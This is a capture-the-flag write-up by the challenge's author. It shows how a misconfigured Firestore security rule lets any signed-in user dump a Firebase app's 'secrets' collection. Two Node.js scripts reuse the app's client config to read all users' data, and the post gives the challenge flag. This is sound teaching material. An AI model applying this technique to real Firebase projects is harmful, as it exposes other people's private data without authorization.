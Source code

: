 ```yaml
---
slug: /articles/base-on-fire
title: Base on fire
date: 24/10/2022
category: Web
thumbnail: thumbnail.png
description: Firestore security rules misconfiguration
author: Elf
ctf: Root-Me CTF
---
```


# Base on fire

## Context

This is a write up for a challenge I created for the Root-Me CTF we organized to celebrate the 10k members on the Discord server. \
Please keep in mind I wasn't a participant but the creator of the challenge, hence the level of details and explainations I am able to provide. \
That was an amazing experience to help organizing this CTF, and I hope people learned a few things and enjoyed my challenges!

## Description

> The secret of my admin's account on my website has leaked, but I have no idea how! Please help me!

## Resolution

Let's go to the website and see what we can do from here.

![](not_logged.png)

To access this home page, we have to be logged in. Let's go ahead and create an account.

![](sign_up.png)

We can now access the home page where there's a feature to store a custom note for our user.

![](note.png)

If we believe the description of the challenge, there must be a way somewhere to access the notes for the other users.

Also, because the page doesn't refresh when we change our note but it's reflected against the DOM, the logic to change the note must be done from client side with an asynchronous request from JavaScript. \
Let's examine what is going on in the client side code handling this.

![](js.png)

It seems there's a lot going on here. By looking at it, we learn two things here:

- the JavaScript code has been bundled by [webpack](https://webpack.js.org/)
- the website is using [Firebase](https://firebase.google.com/)

The challenge name makes sense now: we're facing a Firebase application. Firebase is a BaaS (backend as a service), meaning it provides a full backend and a SDK to connect to it from any front end. It's a very popular choice for making web applications nowadays.

If we search for `apikey` inside this JavaScript file (or if we scroll down for a moment), we can see this piece of code:

![](config.png)

This is where the Firebase configuration is put, it contains everything that is needed to connect to the Firebase backend associated to this application. \
In addition to that, we can see it using Firebase authentication and Firestore. The authentication part is probably responsible for the sign up and login logic we've used before, while Firestore is probably the database used to store the users secrets here. \
If we continue to search for interesting things in this source code, we can find this piece of code that describes the logic of the front end. The collection used to store the secrets is therefore called... `secrets`.

![](db.png)

Now, how is handled access control to limit what can users see inside of the Firestore database? Well, for this purpose, Firebase created the [Firestore Security Rules](https://firebase.google.com/docs/firestore/security/get-started). It's a kind of very simple language that allows you to define who can access what data in what case. \
This is a very critical feature, because if these rules are misconfigured, users could access data that are not for them. \
In our case, given the description hinting that we can access the other users' secrets, we can reuse the Firebase configuration and try to connect to the project's Firestore database to see if we can access the data we want.

Let's try that!

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    const snapshot = await getDocs(collection(db, "secrets"))

    snapshot.forEach(doc => {
        console.log(doc.id, ":", doc.data())
    })
}

solve()
```

Unfortunately, we're rejected because we don't have the permission.

![](insufficient_perms.png)

It means the security rules prevent a non logged in user from accessing the `secrets` collection. But as we can obviously at least access our own secret when logged in, maybe we can in this case not only access it but also all the other secrets. Let's try it by signing in first and only then fetching the secrets.

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

const email = "osef@osef.fr"
const password = "aaaaaa"

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    auth.onAuthStateChanged(async user => {    
        if (user) {
            // logged in
            const snapshot = await getDocs(collection(db, "secrets"))
    
            snapshot.forEach(doc => {
                console.log(doc.id, ":", doc.data())
            })

            process.exit(0)
        }
    })

    await signInWithEmailAndPassword(auth, email, password)
}

solve()
```

And that's it! The security rules didn't prevent us from accessing all the secrets in the collection!

![](secrets.png)

You can see the flag being stored as the secret of a user named `admin` whose UID is `1_4m_th3_4dm1n_u1d`, and you also won the right to read all the notes of the participants as a bonus, there are a few funny ones in it. 8)

Flag: `RM{s3cur1ty_rul3s_m1sc0nf1gur4t10n}`